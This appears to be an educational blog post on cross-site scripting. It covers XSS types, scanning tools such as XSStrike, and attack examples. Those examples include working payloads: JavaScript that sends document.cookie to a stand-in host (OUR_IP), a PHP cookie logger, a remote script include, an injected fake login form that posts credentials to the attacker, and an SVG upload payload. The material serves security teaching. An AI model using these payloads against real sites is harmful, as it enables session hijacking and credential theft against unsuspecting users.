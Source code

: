 ```yaml
---
layout: post
title: "XSS Overview"
---
```


Check XSS CheatSheet for more (comming soon)

------------

# Overview

![XSS](/docs/assets/img/XSS-Overview/XSS.PNG)

What about [same-origin policy](https://portswigger.net/web-security/cors/same-origin-policy) (SOP), huh?

But what if there was a way around that?

Having access to JavaScript on another website in a context of different user can be quite problematic. So... Is there a way to inject code into another website?

That is where today`s topic comes in. 

Cross-Site Scripting (XSS) attacks are a type of injection vulnerabilities that take advantage of a flaw in user input sanitization to inject malicious code into the page and execute it on the client side, leading to several types of attacks.

# Types

There are three main types of XSS vulnerabilities:

* Reflected (Non-Persistent) XSS occurs when user input is immediately returned to the page after being processed by the backend server (e.g., search result or error message), without permanently storing the user provided data.

| <!-- -->    | <!-- -->    |
|-------------|-------------|
![Reflected1](/docs/assets/img/XSS-Overview/Reflected1.PNG)  |  ![Reflected2](/docs/assets/img/XSS-Overview/Reflected2.PNG)

* Stored (Persistent) XSS is the most critical type of XSS. It occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments).

![Stored](/docs/assets/img/XSS-Overview/Stored.PNG)

* DOM-based XSS, last another Non-Persistent XSS type that occurs when JavaScript is used to change the page source through the Document Object Model (DOM) - user input is completely processed on the client-side, without reaching the back-end server and is shown in the browser (e.g., through client-side HTTP parameters or anchor tags).

# XSS Discovery

## Automated Discovery

Almost all Web Application Vulnerability Scanners (like [Nessus](https://www.tenable.com/products/nessus), [ZAP](https://www.zaproxy.org/), and much more) are capable of detecting all above mentioned types of XSS vulnerabilities. Usually by sending various payloads in an attempt to trigger Reflected or Stored XSS or by review of client=side code for potential DOM-based vulnerabilities.

For targeted XSS discovery there are many open-source tools, my favourite, [XSStrike](https://github.com/s0md3v/XSStrike), and others like [XSS-Scanner](https://github.com/MariaGarber/XSS-Scanner), or [XSSer](https://github.com/epsylon/xsser) 

```powershell
python xsstrike.py -u "http://VICTIM_IP:PORT/index.php?task=test" 
```

Keep in mind that none of the mentioned tools are foolproof and all discoveries needs to be verified.

## Manual Discovery

While I usually prefer manual exploitation there are exceptions, and XSS is one of them.
Manual discovery of XSS vulnerabilities is not hard but it is just plainly inefficient as it means manually testing various XSS payloads against an input field in a given web page.
There are enormous lists of XSS payloads, like [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md) and automated tools just faster than you.

While basic XSS vulnerabilities can usually be found by testing various payloads, i.e. Automated discovery tools, in reality there will rarely be anything to find. Developers most likely ran some vulnerability scan before publishing and caught all the low hanging fruit.

Where manual discovery comes in is Code Review.
If we know exactly how user input is handled we can create custom payload that will do what we need it to.

# Attack examples

## Blind XSS

Normally we try to discover if and where an XSS vulnerability exists. But what if we can not easily see the result of out injection?

A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to.

Therefore, they are much more difficult to detect than other types of XSS flaws.
Simple web vulnerability scanners that only analyze direct responses from the application are unable to detect them.

It usually occurs with forms only accessible by certain users (Admins).

* Contact Forms
* User Details
* Support Tickets
....and more

To detect them, we can use a JavaScript payload that sends an HTTP request back to our server.

```powershell
sudo php -S 0.0.0.0:80
```

If the code gets executed, we will get a response on listener running on our machine, and we will know that the page is vulnerable.

### Remote Scripts

In HTML, we can write JavaScript code within the `<script>` tags, but we can also include a remote script by providing its URL.

```html
<script src="http://OUR_IP/script.js"></script>
```

We can use this to execute a remote JavaScript file.

If we have multiple input fields we can change the requested script name from script.js to the name of the input field (e.g. `username.js`) so we can identify the vulnerable input field that executed the script.

With that, we can start testing different XSS payloads that load a remote script and see which of them sends us a request.


## Session Hijacking
 
How would you feel if someone stole your cookie?

This attack aims to grab the session cookie and send it to us so we could log in as, hopefully, administrator.

It requires a payload to send us the required data and a PHP script hosted on our machine to grab transmitted data.

```php
<?php
if(!empty($_GET['cookie'])) {
    $logfile = fopen('data.txt', 'a+');
    fwrite($logfile, $_GET['cookie']);
    fclose($logfile);
}
?>
```

There are multiple JavaScript payloads we can use to grab the session cookie, few examples from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md):

```JavaScript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

Put selected payload into `payload.js` and host in on your machine to be used as Remote Script.

```html
<script src=http://OUR_IP/payload.js></script>
```

Once our XSS payload is triggered, we will receive two requests, one for payload.js, and another request with the cookie value.

We can use this cookie on the login page to access the victim's account.

## Phishing and Credential Theft

In a phishing XSS attack, you create fake login forms and steal credentials.

```html
<h1>Please login to continue</h1>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

Payload:
```JavaScript
<script>
document.write('<h1>Please login to continue</h1><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
</script>
```

The malicious code is embedded in a link that is sent to the victim.
When the victim clicks on the link, they will see our fake login form.

So be careful, especially with shortened urls, like [TinyURL](https://tinyurl.com/) and others.

## File Upload

Stored XSS via File upload

```html
<?xml version="1.0" encoding="utf-8"?>
<svg version="1.1" xmlns="http://www.w3.org/2000/svg">
  <circle cx='100' cy='100' r='100' />
  <script type="text/javascript">
    alert("XSS");
  </script>
</svg>
```

~
